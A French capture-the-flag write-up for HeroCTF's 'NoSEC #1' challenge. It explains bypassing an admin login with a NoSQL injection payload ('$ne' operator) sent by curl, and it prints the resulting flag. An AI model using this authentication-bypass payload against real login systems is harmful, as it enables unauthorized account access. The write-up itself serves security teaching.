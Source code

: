 # NoSEC #1

### Description

Vous devez vous connecter pour valider le challenge !

Format: Hero{flag}

### Solution

Dans ce challenge, il s'agit de se connecter en tant qu'administrateur.

Premier réflex : `admin:admin`.

La page nous renvoie : `Wrong password !` ce qui veut dire que l'identifiant est bien admin mais le mot de passe est mauvais.

Le titre du challenge est assez explicite sur le type d'attaque que le va devoir faire pour récupérer le flag.

NoSEC -> NoSQL.

Ne connaissant pas trop ce genre d'attaque, je fais mes recherches.

Il est possible avec un payload (envoyé en JSON), de bypass l'authentification un peu comme en SQL normal.

Payload : 

`{"username": "admin", "password": {"$ne": "randomPass"}}`

On envoi ce payload avec `curl` :

```bash
curl -X POST --header "Content-Type: application/json" challs.heroctf.fr:3000/login --data '{"username":"admin", "password": {"$ne": "randomPass"}}'

{"state":"success","msg":"You can validate this challenge with: Hero{NoSQL_1Nject1on_wAw_1597}"}
```




